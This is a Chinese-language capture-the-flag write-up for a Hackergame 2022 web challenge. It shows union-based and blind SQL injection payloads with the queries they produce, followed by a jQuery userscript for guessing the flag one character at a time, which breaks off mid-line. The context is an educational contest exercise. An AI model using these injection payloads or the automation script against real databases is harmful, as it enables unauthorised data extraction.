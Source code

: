 - `users` 表中有名为 `flag` 的用户。
- 另有 `flag` 数据表，内含一列称为 `flag`，这里包含 flag 的值。

先验证第一个。

```plain
Simple-1' and 1=0 union select '1' from users where username = 'flag' --
```

```sql
select riskness from users where username = 'Simple-1' and 1=0
  union select '1' from users where username = 'flag' -- '
```

这个失败了。下一个。

```plain
Simple-1' union select flag from flag --
```

```sql
select riskness from users where username = 'Simple-1'
  union select flag from flag -- '
```

并没有出现什么错误。但是，如何把 flag 的信息传递出来呢？似乎没有办法传递这么一长串文本。我们知道，如果匹配成功，系统会显示简单的数字验证码；如果没成功，则会显示高难度的验证码。于是我们可以使用猜 flag 的方法。使用 `where instr(flag, 'flag{...')` 可以检验某字符串是否是 flag 的前缀（这里利用了大括号中不可能再出现 `flag{` 这一点）。这样，就可以逐个枚举字符来构造出 flag。

注：这里没有使用 `like`。这是因为 `like` 的模式串中涉及过多特殊字符难以处理，且这种比较不区分大小写。

至于怎么判断验证码是否是数字验证码... 那就手动吧。就这么点工作量，不会有逝的。剩下的工作，就交给脚本了！

```javascript
// ==UserScript==
// @name        Hackergame 2022 DontPanic
// @namespace   Hackergame 2022
// @require     https://cdn.jsdelivr.net/npm/jquery@3.2.1/dist/jquery.min.js
// ==/UserScript==

$(() => {
  let getCaptchaData = (username) => new Promise((resolve) => {
    // 验证码的显示方式是先获取 base64 编码，然后显示到图片框上。
    $.ajax({
      url: 'captcha',
      type: 'POST',
      data: {
        username: username
      },
      dataType: 'json',
      success: (e) => {
        if(e.result) {
          resolve(e.result)
        } else {
          resolve(null)
        }
      },
      error: (e) => {
        resolve(null)
      }
    })
  })
  let showCaptcha = (data) => {
    $('#capimg').attr('src', 'data:image/png;charset=utf-8;base64,' + data)
  }
  let delay = (t) => new Promise((resolve) => {
    setTimeout(resolve, t)
  })
  let tryFlagPrefix = async (text) => {
    let inject = `Simple-1' and 1=0 union select '1' from flag ` +
```